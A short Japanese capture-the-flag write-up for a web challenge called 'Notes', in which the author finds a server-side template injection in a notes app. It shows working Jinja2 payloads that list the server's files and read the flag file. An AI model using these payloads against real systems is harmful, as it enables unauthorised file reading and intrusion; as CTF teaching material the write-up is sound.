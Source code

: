 # Notes:Web:881pts
[http://challenges2.hexionteam.com:2001](http://challenges2.hexionteam.com:2001)  

# Solution
URLにアクセスすると次のようなページが開く。  
[site.png](site/site.png)  
どうやら買い物のメモを保存しておくサイトのようで、ソースを見てやると/notesが存在するらしい。  
"{{"を入力してやると/notesで500エラーが発生する。  
サーバーサイドテンプレートインジェクションをにらんで`{{config}}`を入力すると/notesは以下になる。  
[{{config}}を入力]({{config}}.html)  
ここからSECRET_KEYを奪い、セッションを偽装するのかと考えたが違うようだ。  
サーバーのファイルを読み取りにいく。  
`{{url_for.__globals__.__getitem__('os').listdir('./')}}`を入力すると/notesは以下になる。  
```text
["['.bash_logout', '.bashrc', '.profile', '__pycache__', 'server.py', 'templates', 'flag']"]
```
flagなるファイルがあるようだ。  
`{{url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag').read()}}`を入力し表示する。  
```text
["hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput} "]
```

## hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}